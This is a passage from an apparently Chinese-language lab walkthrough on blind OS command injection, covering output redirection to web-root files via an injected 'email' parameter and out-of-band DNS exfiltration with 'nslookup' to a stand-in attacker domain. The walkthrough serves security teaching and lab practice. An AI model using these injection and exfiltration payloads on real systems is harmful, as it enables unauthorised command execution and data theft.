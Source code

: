 
<hr/>
part3：
修改数据包，并关闭拦截

等10s后刷新一下页面，就完成了




---


---


> 
<h3>4、通过重定向输出利用盲目操作系统命令注入</h3>
1、可以将注入命令的输出重定向到Web根目录中的文件中，然后可以使用浏览器检索该文件。例如，如果应用程序从文件系统位置/var/www/static提供静态资源，则可以提交以下输入：
<pre><code>&amp; whoami &gt; /var/www/static/whoami.txt &amp;
（学过Linux的应该都会这些命令）</code></pre>
2、解释：&gt;字符发送来自whoami命令添加到指定文件（这里是输出到whoami.txt，没有就自动创建）。然后可以使用浏览器获取https://vulnerable-website.com/whoami.txt以检索文件，并查看插入命令的输出。 
<hr/>
涉及实验：<br/> 实验3：带有输出重定向的盲操作系统命令注入


> 
<h3>实验3：带有输出重定向的盲操作系统命令注入</h3>
part1：
填写反馈信息
使用Burp Suite拦截和修改提交反馈的请求


<hr/>
part2：
发送到repeater
修改email参数
<pre>`email=||whoami&gt;/var/www/images/output.txt||`</pre>

 在数据包中修改，并关闭拦截



<hr/>
part3：
通过filename参数文件包含，读取输出到output.txt文件的信息
<pre>`filename=output.txt`</pre>


第三个数据包（老演员了）

 发送到repeater

 在数据包中修改，并关闭拦截




---


> 
<h3>5、利用带外（OAST）技术</h3>
1、简述：
可以使用一个注入命令，该命令将触发与您使用OAST技术控制的系统的带外网络交互。例如：
<pre>`&amp; nslookup kgji2ohoyw.web-attacker.com &amp;`</pre>
此有效负载使用nslookup命令对指定的域进行DNS查找。攻击者可以监视指定查找的发生，从而检测到命令已成功插入。 
<hr/>
2、带外通道还提供了一种从注入命令中提取输出的简单方法：
<pre>`&amp; nslookup `whoami`.kgji2ohoyw.web-attacker.com &amp;`</pre>
这将导致对攻击者的域进行DNS查找，该域包含whoami命令：
<pre>`wwwuser.kgji2ohoyw.web-attacker.com`</pre>
<hr/>
2、涉及实验：<br/> 实验4：具有带外交互的盲OS命令注入
实验5：具有带外数据泄漏的盲操作系统命令注入